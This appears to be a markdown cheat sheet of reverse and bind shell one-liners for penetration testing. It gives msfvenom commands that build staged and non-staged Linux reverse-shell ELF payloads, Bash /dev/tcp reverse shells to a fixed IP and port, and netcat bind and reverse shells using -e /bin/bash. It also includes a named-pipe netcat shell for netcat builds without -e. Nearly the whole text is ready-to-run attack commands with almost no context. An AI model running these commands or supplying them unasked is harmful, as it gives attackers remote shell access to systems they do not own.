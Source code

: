 ```
```

### No-meterpreter

```
#-staged
//x86
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

//x64
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

#-Non-staged
//x86
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

//x64
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

```

## Bash

```
0<&196;exec 196<>/dev/tcp/192.168.0.118/4444; sh <&196 >&196 2>&196

bash -i >& /dev/tcp/192.168.0.118/4444 0>&1
```


## Netcat

* Bind shell

```
#Linux
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555
```

* Reverse shell

```
#Linux
nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash
```

* -e flag
部分nc可能不支持-e参数

```
nc -e /bin/sh ATTACKING-IP 80
/bin/sh | nc ATTACKING-IP 80

#无-e参数
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```
